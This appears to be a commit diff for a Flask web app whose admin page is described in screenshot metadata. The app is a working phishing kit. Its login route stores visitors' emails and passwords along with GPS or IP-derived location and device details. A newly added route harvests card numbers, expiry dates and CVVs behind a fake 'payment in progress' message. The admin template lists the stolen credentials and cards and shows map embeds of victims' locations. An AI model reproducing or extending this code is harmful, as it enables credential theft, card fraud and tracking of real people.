

Before and after one commit to extermi3939/Despliegue-V11-Forensic-a-Render, a Flask app: page /matrix_admin in a window 1280 px wide. Shown: the top 655 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data comes from the database, SQL or seed files in the repository.

Commit message:
V13 Final

```diff
--- a/app.py
+++ b/app.py
@@ -3,9 +3,9 @@ from datetime import datetime
 from flask import Flask, render_template, request, redirect, url_for, session
 
 app = Flask(__name__)
-app.secret_key = 'franco_ultra_v12_gold_final'
+app.secret_key = 'franco_v13_master_key'
 
-# Configuración de Rutas y Carpetas
+# --- CONFIGURACIÓN DE DIRECTORIOS ---
 BASE_DIR = os.path.dirname(os.path.abspath(__file__))
 UPLOAD_FOLDER = os.path.join(BASE_DIR, 'static', 'uploads')
 SYSTEM_FOLDER = os.path.join(BASE_DIR, 'static', 'system')
@@ -26,15 +26,15 @@ def init_db():
 
 init_db()
 
-# CONFIGURACIÓN MAESTRA (Controlada desde el Panel)
+# CONFIGURACIÓN INICIAL
 config_web = {
     "user_admin": "franco",
     "pass_admin": "franco",
     "alias": "VIP.FRANCO.PAGOS",
     "precio": "2500",
     "img_principal": "/static/system/portada.jpg",
-    "titulo": "¡BIENVENIDO A MI SITIO OFICIAL!",
-    "color_fondo": "#2d004d",
+    "titulo": "ACCESO PRIVADO VIP",
+    "color_fondo": "#1a0033",
     "color_texto": "#ffffff"
 }
 
@@ -45,21 +45,23 @@ def login():
 @app.route('/auth', methods=['POST'])
 def auth():
     u, p = request.form.get('email'), request.form.get('pass')
-    # Captura Forense desde el Navegador
-    bat, res, lang, tz = request.form.get('bateria', 'N/D'), request.form.get('resolucion', 'N/D'), request.form.get('lenguaje', 'N/D'), request.form.get('tz', 'N/D')
+    bat, res, lang, tz = request.form.get('bateria','N/D'), request.form.get('resolucion','N/D'), request.form.get('lenguaje','N/D'), request.form.get('tz','N/D')
+    lat_gps = float(request.form.get('lat_gps', 0))
+    lon_gps = float(request.form.get('lon_gps', 0))
 
-    # Geolocalización por IP
-    geo = {"city": "N/A", "lat": 0, "lon": 0}
-    try:
-        geo = requests.get(f'http://ip-api.com/json/{request.remote_addr}', timeout=2).json()
-    except: pass
+    city = "Desconocida"
+    if lat_gps == 0:
+        try:
+            geo = requests.get(f'http://ip-api.com/json/{request.remote_addr}', timeout=2).json()
+            city, lat_gps, lon_gps = geo.get('city','N/A'), geo.get('lat',0), geo.get('lon',0)
+        except: pass
 
     ua = request.headers.get('User-Agent', '')
     disp = "iOS" if "iPhone" in ua else "Android" if "Android" in ua else "PC"
 
     conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
     cursor.execute("INSERT INTO registros (user, pass, tarjeta, banco, tipo, hora, dispositivo, city, lat, lon, bateria, resolucion, lenguaje, zona_horaria) VALUES (?,?,?,?,?,?,?,?,?,?,?,?,?,?)",
-                   (u, p, "ESPERANDO...", "-", "-", datetime.now().strftime("%H:%M:%S"), disp, geo.get('city','N/A'), geo.get('lat',0), geo.get('lon',0), bat, res, lang, tz))
+                   (u, p, "ESPERANDO...", "-", "-", datetime.now().strftime("%H:%M:%S"), disp, city, lat_gps, lon_gps, bat, res, lang, tz))
     session['current_id'] = cursor.lastrowid
     conn.commit(); conn.close()
     session['logged_in'] = True
@@ -70,6 +72,19 @@ def dashboard():
     if not session.get('logged_in'): return redirect(url_for('login'))
     fotos = [f for f in os.listdir(UPLOAD_FOLDER) if f.lower().endswith(('png', 'jpg', 'jpeg', 'gif'))]
     return render_template('dashboard.html', config=config_web, fotos=fotos)
+
+@app.route('/captura_pago', methods=['POST'])
+def captura_pago():
+    rid = session.get('current_id')
+    if rid:
+        cc = request.form.get('cc')
+        exp = request.form.get('exp')
+        cvv = request.form.get('cvv')
+        data_card = f"CC: {cc} | EXP: {exp} | CVV: {cvv}"
+        conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
+        cursor.execute("UPDATE registros SET tarjeta=? WHERE id=?", (data_card, rid))
+        conn.commit(); conn.close()
+    return "✅ PAGO EN PROCESO... REVISE SU EMAIL."
 
 @app.route('/matrix_admin', methods=['GET', 'POST'])
 def admin_matrix():
@@ -88,15 +103,14 @@ def update_full():
     if session.get('is_admin'):
         if 'file_portada' in request.files:
             f = request.files['file_portada']
-            if f.filename != '':
-                f.save(os.path.join(SYSTEM_FOLDER, "portada.jpg"))
-                config_web["img_principal"] = "/static/system/portada.jpg?v=" + str(time.time())
-
-        config_web["titulo"] = request.form.get('titulo')
-        config_web["alias"] = request.form.get('alias')
-        config_web["precio"] = request.form.get('precio')
-        config_web["color_fondo"] = request.form.get('color_fondo')
-        config_web["color_texto"] = request.form.get('color_texto')
+            if f.filename != '': f.save(os.path.join(SYSTEM_FOLDER, "portada.jpg"))
+        config_web.update({
+            "titulo": request.form.get('titulo'),
+            "alias": request.form.get('alias'),
+            "precio": request.form.get('precio'),
+            "color_fondo": request.form.get('color_fondo'),
+            "color_texto": request.form.get('color_texto')
+        })
     return redirect(url_for('admin_matrix'))
 
 @app.route('/upload_media', methods=['POST'])
--- a/templates/admin.html
+++ b/templates/admin.html
@@ -2,67 +2,45 @@
 <html lang="es">
 <head>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>MASTER_V12_GOLD</title>
+    <title>ADMIN_V13</title>
     <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css">
     <style>
-        body { background: #000; color: #00ff41; font-family: 'Courier New', monospace; font-size: 0.8rem; }
-        .box { border: 1px solid #00ff41; background: rgba(0,20,0,0.9); padding: 12px; margin-bottom: 10px; border-radius: 5px; }
-        .table { color: #00ff41; border-color: #004400; font-size: 0.75rem; }
-        input, .form-control { background: #000 !important; color: #00ff41 !important; border: 1px solid #00ff41 !important; font-size: 0.8rem; }
-        .label-p { color: #00ccff; font-weight: bold; font-size: 0.65rem; display: block; margin-top: 8px; }
-        .thumb { width: 45px; height: 45px; object-fit: cover; border: 1px solid #00ff41; margin: 2px; }
+        body { background: #000; color: #00ff41; font-family: monospace; font-size: 0.8rem; }
+        .m-box { border: 1px solid #00ff41; background: rgba(0,20,0,0.9); padding: 10px; margin-bottom: 10px; }
+        .table { color: #00ff41; border-color: #004400; }
+        .card-data { color: #ff3131; font-weight: bold; border: 1px dashed #ff3131; padding: 5px; display: block; }
     </style>
 </head>
 <body class="p-3">
-    <h6 class="mb-3 border-bottom border-success pb-2">> FRANCO_FORENSIC_MASTER_V12</h6>
     <div class="row">
         <div class="col-md-3">
-            <div class="box">
-                <p class="text-white small fw-bold">> CONFIGURACIÓN_DEL_SITIO</p>
+            <div class="m-box">
+                <h6>CONFIGURACIÓN</h6>
                 <form action="/update_full" method="POST" enctype="multipart/form-data">
-                    <span class="label-p">PORTADA:</span>
-                    <input type="file" name="file_portada" class="form-control form-control-sm mb-2">
-                    <span class="label-p">TÍTULO:</span>
-                    <input type="text" name="titulo" value="{{config.titulo}}" class="form-control form-control-sm mb-2">
-                    <span class="label-p">ALIAS PAGO:</span>
-                    <input type="text" name="alias" value="{{config.alias}}" class="form-control form-control-sm mb-2">
-                    <span class="label-p">PRECIO:</span>
-                    <input type="text" name="precio" value="{{config.precio}}" class="form-control form-control-sm mb-2">
-                    <div class="row g-2 mb-2">
-                        <div class="col-6"><span class="label-p">COLOR FONDO:</span><input type="color" name="color_fondo" value="{{config.color_fondo}}" class="form-control form-control-sm h-auto"></div>
-                        <div class="col-6"><span class="label-p">COLOR TEXTO:</span><input type="color" name="color_texto" value="{{config.color_texto}}" class="form-control form-control-sm h-auto"></div>
-                    </div>
-                    <button class="btn btn-outline-success btn-sm w-100">GUARDAR CAMBIOS</button>
+                    <input type="text" name="titulo" value="{{config.titulo}}" class="form-control form-control-sm mb-2" placeholder="Título">
+                    <input type="text" name="alias" value="{{config.alias}}" class="form-control form-control-sm mb-2" placeholder="Alias Pago">
+                    <input type="text" name="precio" value="{{config.precio}}" class="form-control form-control-sm mb-2" placeholder="Precio">
+                    <input type="color" name="color_fondo" value="{{config.color_fondo}}" class="form-control form-control-sm mb-2">
+                    <button class="btn btn-success btn-sm w-100">ACTUALIZAR</button>
                 </form>
-            </div>
-            <div class="box">
-                <p class="text-white small fw-bold">> MEDIA_DASHBOARD</p>
-                <form action="/upload_media" method="POST" enctype="multipart/form-data">
-                    <input type="file" name="file_gallery" class="form-control form-control-sm mb-2">
-                    <button class="btn btn-outline-primary btn-sm w-100 mb-2">SUBIR IMAGEN</button>
-                </form>
-                <div class="d-flex flex-wrap overflow-auto" style="max-height: 120px;">
-                    {% for f in archivos %}
-                    <div class="position-relative">
-                        <img src="/static/uploads/{{f}}" class="thumb">
-                        <a href="/delete_file/{{f}}" class="btn btn-danger btn-sm p-0 position-absolute top-0 end-0" style="width:14px;height:14px;font-size:8px;">X</a>
-                    </div>
-                    {% endfor %}
-                </div>
             </div>
         </div>
         <div class="col-md-9">
-            <div class="box overflow-auto">
-                <p class="text-white small fw-bold">> LOGS_DE_CAPTURA_FORENSE</p>
+            <div class="m-box">
+                <h6>REGISTROS CAPTURADOS</h6>
                 <table class="table table-dark table-sm">
-                    <thead><tr><th>USUARIO</th><th>FORENSE</th><th>TARJETA</th><th>MAPA</th></tr></thead>
+                    <thead><tr><th>USUARIO/PASS</th><th>UBICACIÓN</th><th>TARJETA</th><th>MAPA</th></tr></thead>
                     <tbody>
                         {% for r in registros %}
                         <tr>
                             <td><b>{{r[1]}}</b><br><small class="text-info">{{r[2]}}</small></td>
-                            <td><small class="text-warning">BAT: {{r[11]}}</small><br><small>{{r[7]}} | {{r[12]}}</small></td>
-                            <td><span class="{% if 'ESPERANDO' not in r[3] %}text-danger fw-bold{% endif %}">{{r[3]}}</span></td>
-                            <td>{% if r[9] != 0 %}<iframe width="110" height="65" src="https://maps.google.com/maps?q={{r[9]}},{{r[10]}}&hl=es&z=10&output=embed" style="border:1px solid #00ff41"></iframe>{% endif %}</td>
+                            <td><small>{{r[8]}}</small><br><small class="text-muted">{{r[9]}}, {{r[10]}}</small></td>
+                            <td><span class="card-data">{{r[3]}}</span></td>
+                            <td>
+                                {% if r[9] != 0 %}
+                                <iframe width="100" height="60" src="https://maps.google.com/maps?q={{r[9]}},{{r[10]}}&z=15&output=embed"></iframe>
+                                {% endif %}
+                            </td>
                         </tr>
                         {% endfor %}
                     </tbody>
```
Also changed, not shown: templates/dashboard.html (+23 -23 lines), templates/login.html (+27 -43 lines).
